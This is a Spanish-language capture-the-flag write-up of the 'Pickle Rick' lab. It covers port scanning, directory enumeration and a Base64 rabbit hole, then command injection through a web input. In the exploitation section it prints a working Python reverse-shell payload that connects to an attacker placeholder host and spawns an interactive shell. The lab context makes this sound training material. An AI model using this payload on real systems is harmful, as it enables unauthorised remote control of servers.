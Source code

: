 # Write-Up: Pickle Rick

**Herramientas utilizadas:**
● nmap para escaneo de puertos
● gobuster para enumeración de directorios
● base64 para decodificación de strings
● python para ejecución de una reverse shell
● less para visualizar archivos restringidos
**¿Qué aprendí?**
● Importancia de la enumeración web y análisis de código fuente
● Identificación de "rabbit holes" y cómo evitarlos
● Ejecución de comandos y explotación de una shell inversa
● Métodos alternativos para leer archivos cuando comandos básicos están restringidos

## Escaneo Inicial

Lo primero que realicé fue un escaneo rápido con nmap para identificar los puertos abiertos
en la máquina objetivo:
sudo nmap -Pn -sS -p- —min-rate 5000 -n 10.10.25.29 –vvv


#### Explicación de los parámetros:

● -Pn: No realiza un ping previo (útil si ICMP está bloqueado).
● -sS: Escaneo SYN (semi sigiloso).
● -p-: Escanea todos los puertos (0-65535).
● --min-rate 5000 : Acelera el escaneo enviando al menos 5000 paquetes por
segundo.
● -n: No resuelve nombres de dominio.
● -vvv: Modo muy detallado.
Con este escaneo, descubrí que los puertos 22 (SSH) y 80 (HTTP) estaban abiertos. Para
obtener más detalles, realicé otro escaneo con -sV para identificar las versiones de los
servicios en ejecución:
sudo nmap -sV -p 22,80 10.10.25.
Se detectó que el puerto 80 estaba corriendo Apache, por lo que accedí a la dirección IP en
el navegador.
se puede visualizar esto.


## Enumeración Web

Al inspeccionar el código fuente de la página, encontré un comentario que contenía un
posible usuario. Luego, ejecuté un escaneo de directorios con gobuster para descubrir
archivos o directorios interesantes.
gobuster dir -u [http://10.10.215.34](http://10.10.215.34) -w
~/git/SecLists/Discovery/Web-Content/raft-large-files.txt -t 50
Encontre un inicio de sesión y un archivo txt, en el cual contenía el siguiente contenido


lo cual parece tonto, pero nos servira para poder inciar sesion, en el formulario de php.

## Explotación y Acceso Inicial

Me olvidé de tomar capturas de pantalla del formulario y la página principal, pero en esta
última encontré un input que ejecutaba comandos en el servidor. Además, inspeccionando
el código fuente, encontré un comentario con una cadena codificada en Base64.
usando base64 decode podremos saber el contenido desencriptado
https://www.base64decode.org/


Después de realizar este proceso cinco veces, descubrí que el mensaje decodificado decía
Rabbit hole, lo cual significa que era una trampa diseñada para distraer al atacante.
Una vez superada esta distracción, decidí probar una reverse shell en el input de
comandos:
import socket,subprocess,os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("ip-atacante", 4444)) # Conectamos al atacante
os.dup2(s.fileno(), 0) # Redirigimos entrada estándar
os.dup2(s.fileno(), 1) # Redirigimos salida estándar
os.dup2(s.fileno(), 2) # Redirigimos error estándar
subprocess.call(["/bin/sh", "-i"]) # Obtenemos una shell interactiva

## Obtención de los Ingredientes

### Primer Ingrediente

```
● Se encontraba en el directorio por defecto con el nombre
Sup3rS3cretPickl3Ingred.txt.
● Como cat y nano estaban deshabilitados, utilicé less para visualizar su contenido:
```

**Segundo Ingrediente**
● Ubicado en el directorio de rick.
**Tercer Ingrediente**
● Ubicado en el directorio root.
● Para ver su contenido, usé sudo less.


## Conclusión

Este reto me permitió practicar varias habilidades clave en pentesting:
● Enumeración con nmap y gobuster.
● Decodificación de Base64 y detección de rabbit holes.
● Ejecución de comandos y explotación de una shell inversa.
● Uso de técnicas para visualizar archivos cuando cat y nano están restringidos.
En futuras pruebas, planeo mejorar mi rapidez en la detección de distracciones y optimizar
mis técnicas de escalada de privilegios.


